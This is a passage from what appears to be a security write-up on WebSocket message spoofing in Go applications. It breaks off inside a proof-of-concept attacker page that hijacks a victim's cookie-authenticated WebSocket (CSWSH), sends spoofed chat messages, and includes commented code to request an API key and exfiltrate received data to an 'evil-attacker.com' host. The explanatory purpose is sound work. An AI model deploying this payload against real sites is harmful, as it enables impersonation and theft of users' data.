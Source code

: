 ## **10. Proof of Concept (PoC)**

To illustrate how WebSocket message spoofing vulnerabilities can be exploited, two Proof of Concept (PoC) scenarios are presented. These demonstrate both identity spoofing via CSWSH and content spoofing via XSS injection.

**PoC 1: CSWSH Leading to Message Spoofing (Identity Spoofing)**

- **Assumptions:**
    - The target Golang WebSocket server is accessible at `wss://vulnerable-app.com/ws`.
    - The application uses cookie-based authentication for user sessions.
    - The WebSocket upgrader in the Golang backend is misconfigured with a permissive `Origin` check, such as `CheckOrigin: func(r *http.Request) bool { return true }`.
- **Attacker's Malicious HTML Page (e.g., hosted on `https://evil-attacker.com/poc-cswsh.html`):**
    
    ```HTML
    
    <!DOCTYPE **html**>
    <html>
    <head>
        <title>CSWSH PoC</title>
    </head>
    <body>
        <h1>Please wait...</h1>
        <script>
            console.log("Attempting CSWSH attack...");
            // Target the vulnerable WebSocket endpoint
            var ws = new WebSocket("wss://vulnerable-app.com/ws");
    
            ws.onopen = function() {
                console.log("CSWSH: Connection successfully opened to wss://vulnerable-app.com/ws");
                // The connection is established using the victim's browser context and cookies.
                // The attacker can now send messages as if they are the victim.
    
                // Example: Spoofing a chat message as the victim
                var spoofedChatMessage = {
                    type: "chat_message",
                    channel_id: "general",
                    text: "This message is spoofed by an attacker via CSWSH!"
                };
                ws.send(JSON.stringify(spoofedChatMessage));
                console.log("CSWSH: Sent spoofed chat message as victim.");
    
                // Example: Attempting to trigger a sensitive action, like retrieving an API key
                // (assuming the application supports such an action via WebSocket)
                // var requestApiKeyMessage = {
                //     action: "GET_USER_API_KEY"
                // };
                // ws.send(JSON.stringify(requestApiKeyMessage));
                // console.log("CSWSH: Sent request for API key as victim.");
            };
    
            ws.onmessage = function(event) {
                // Attacker can receive messages intended for the victim and exfiltrate them
                console.log("CSWSH: Received message (as victim): " + event.data);
                // Example of exfiltrating received data to the attacker's server
                // var img = document.createElement('img');
                // img.src = 'https://evil-attacker.com/log?data=' + encodeURIComponent(btoa(event.data));
                // document.body.appendChild(img);
            };
    